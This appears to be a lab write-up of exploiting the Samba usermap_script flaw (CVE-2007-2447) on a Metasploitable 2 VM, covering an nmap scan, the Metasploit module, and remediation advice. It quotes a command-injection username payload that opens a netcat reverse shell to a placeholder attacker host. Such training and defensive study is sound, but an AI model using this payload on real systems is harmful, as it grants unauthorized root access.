




**Target**: Metasploitable 2 VM<br />
**Service**: netbios-ssn<br />
**Port**: 139<br />
**Vulnerability**: CVE-2007-2447<br />
**Severity**: CVSS v2 base score: 6.0 (Medium) <br />

**Note**: While the vuln was given a CVSS score of 6.0 due to v2 metrics, in practice it is classified as critical since it allows for root access to the target machine with relatively low exploit complexity.<br />

"netbios" is a legacy service on which used to facilitate the functioning of Samba which now runs directly on TCP/IP.<br />

"netbios-ssn(session service)" specifically allows us to establish connections between two nodes/devices on a certain network.<br />

The vulnerability exploits the handling of input(specifically the provided username when making an authentication attempt to a SMB/Samba service) to perform remote command execution and opening a root reverse shell.<br />

When the attackers authenticates into the service uing smbclient or similar, they place a command such as ```'/=`nohup nc <attacker_ip> <listening_port> -e /bin/bash`'``` in place of the username field.<br />

When authentication attempts are made, smbd(SMB daemon) performs a user-mapping script server side(in essence makes the shell execute a username mapping script for account matching between systems), but since the attacker supplied username is covered in backticks the shell firt executes the command within backticks which opens a reverse shell back to the attacker machine on the provided port(standard bash behaviour) before going through with the user-mapping script.<br />

This is one of the reasons the vulnerability is so critical since the reverse shell executes during the usermap stage, before authentication is carried out meaning access to a valid account is not required since the script execution precedes authentication.<br />

### Exploitation:
(1) I first ran an nmap scan against port 139 of the metasploitable machine with the -sCV tag and use searchsploit to find the associated vulnerability.<br />
<br />

(2) I then launched msfconsole and made use of the ```multi/samba/usermap_script``` exploit.<br />
<br />
<br />
(3) I set the following option on the exploit

```LHOST: 192.168.56.106(attacker machine)```<br />```RHOSTS: 192.168.56.107(target machine)```<br />

(4) I then launched the exploit and got a root shell on the target machine.<br />

<br />

#### Impact:
I was able to get RCE on the machine and made us of that to get a root shell into the machine by exploiting handling on unsanitised input.<br />

### Remediation:
- Update to a patched version of Samba(Samba 3.0.25rc3 and later).<br />

- If patching is not currently possible, temporarily disable the usermap script functionality on the service since that prevents remote command execution by the attacker.<br />

- If neither of the above are preferrable, sanitise username input before passing it to the shell(remove special characters such as backticks which allow construction of a command argument).<br />

- Restrict access to netbiob/SMB/samba ports to only trusted hosts to reduce how many nodes/devices can reach the service.<br />
